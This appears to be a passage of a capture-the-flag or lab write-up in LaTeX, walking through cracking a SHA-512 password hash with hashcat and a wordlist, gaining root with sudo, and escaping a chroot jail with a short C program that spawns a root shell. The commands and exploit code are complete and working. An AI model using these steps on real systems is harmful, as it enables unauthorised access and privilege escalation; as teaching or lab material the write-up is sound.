 \documentclass[../main.tex]{subfiles}
\begin{document}
\begin{lstlisting}
./hashcat -m1800 -O -a 0 -o cracked.txt '$6$jkzT4lf.j4waXBTz$FbaqyGF2eDOzqx6fYxpNgcJ54PAGuHtE8Tgxw37OtTpL3icdE34.zrFBDbmt703gBYnef4i65L9rDf23rwSf/1' rockyou.txt
\end{lstlisting}
Now we can find the cracked passwords in the cracked.txt file:
\begin{lstlisting}
cat cracked.txt
$6$jkzT4lf.j4waXBTz$FbaqyGF2eDOzqx6fYxpNgcJ54PAGuHtE8Tgxw37OtTpL3icdE34.zrFBDbmt703gBYnef4i65L9rDf23rwSf/1:maga
\end{lstlisting}
So, the password is 'maga'.
\subsubsection{privilege escalation}
With the password we can start a root shell with \lstinline{sudo -i}.

Now that we have root access, we can break out using a simple C program, since gcc is available in this environment.

\begin{lstlisting}[language=bash]
cat << EOF > escape.c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
EOF
\end{lstlisting}
We can compile it with:
\begin{lstlisting}
gcc -o escape escape.c
\end{lstlisting}
and then execute it like so:
\begin{lstlisting}
./escape
\end{lstlisting}
\end{document}
